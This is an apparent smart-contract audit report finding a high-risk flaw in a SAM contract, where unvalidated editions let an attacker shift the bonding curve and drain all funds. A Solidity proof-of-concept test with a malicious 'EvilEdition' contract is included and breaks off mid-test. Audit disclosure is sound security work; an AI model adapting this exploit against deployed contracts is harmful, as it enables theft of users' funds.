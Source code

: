 **Auditor**

[Zach Obront](https://twitter.com/zachobront)

# Findings

## High Risk

### [C-01] All funds can be stolen from the SAM contract

The `create()` function doesn't validate that new editions added to the SAM contracts are, in fact, editions.

A malicious contract can be added that always passes the `onlyEditionOwnerOrAdmin` and `onlyBeforeMintConcluded` checks, which allows the exploiter to set all parameters at any time.

A user can therefore:
- Add their contract as an edition with a very low inflection price, increasing data.supply arbitrarily at ~ no cost
- Adjust the inflection price and point so that the curve shifts, increasing token price
- Sell their tokens back into the curve for more than was ever put in, emptying funds from the SAM contract

**Proof of Concept**

Here is a drop in test that can be added to the test file to validate this attack:
```solidity
pragma solidity ^0.8.16;

import { SAM } from "@modules/SAM.sol";
import "forge-std/Test.sol";

contract EvilEdition {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function mintConcluded() public view returns (bool) {
        return false;
    }

    function samMint(address to, uint quantity) public returns (uint) {
        return 1;
    }

    function samBurn(address from, uint[] memory tokenIds) public {}
}

contract SAMTests is Test {
    SAM sam;
    EvilEdition edition;
    address exploiter = makeAddr("exploiter");

    function testZach__BigEvilExploit() public {
        vm.startPrank(exploiter);
        vm.deal(exploiter, 1);

        sam = new SAM();
        edition = new EvilEdition();
        vm.deal(address(sam), 1000 ether);
        console.log("Starting Exploiter Balance:", exploiter.balance);
        console.log("Starting SAM Balance:", address(sam).balance);
```